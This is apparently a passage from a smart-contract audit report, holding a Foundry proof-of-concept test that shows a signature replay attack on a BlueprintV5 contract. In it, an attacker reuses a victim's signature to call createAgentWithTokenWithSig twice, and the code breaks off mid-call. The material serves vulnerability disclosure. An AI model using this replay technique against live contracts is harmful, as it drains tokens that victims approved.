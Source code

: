 ### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract ReplayAttackTest is Test {
    BlueprintV5 public blueprint;
    address public victim = address(0x1);
    address public attacker = address(0x2);
    address public tokenAddress = address(0x3);
    bytes32 public projectId = bytes32(uint256(1));
    string public base64Proposal = "data:application/json;base64,eyJuYW1lIjoiQWdlbnQifQ==";
    string public serverURL = "https://api.crestal.network";
    bytes public signature;

    function setUp() public {
        // Setup contracts
        blueprint = new BlueprintV5();
        blueprint.initialize();
        
        // Set necessary state variables
        vm.startPrank(address(blueprint.owner()));
        blueprint.addPaymentAddress(tokenAddress);
        blueprint.setCreateAgentTokenCost(tokenAddress, 100);
        vm.stopPrank();
        
        // Create valid signature from victim
        vm.startPrank(victim);
        bytes32 digest = blueprint.getRequestDeploymentDigest(projectId, base64Proposal, serverURL);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(1, digest); // Private key 1 for victim
        signature = abi.encodePacked(r, s, v);
        vm.stopPrank();
        
        // Fund victim account
        deal(tokenAddress, victim, 10000);
        
        // Victim approves token spending
        vm.prank(victim);
        IERC20(tokenAddress).approve(address(blueprint), 10000);
    }

    function test_signatureReplayAttack() public {
        vm.startPrank(attacker);
        
        // First legitimate use of signature - succeeds
        bytes32 requestID1 = blueprint.createAgentWithTokenWithSig(
            projectId,
            base64Proposal,
            address(0), // No private worker
            serverURL,
            tokenAddress,
            signature
        );
        
        // Second replay of the same signature - also succeeds
        bytes32 requestID2 = blueprint.createAgentWithTokenWithSig(
            projectId,
```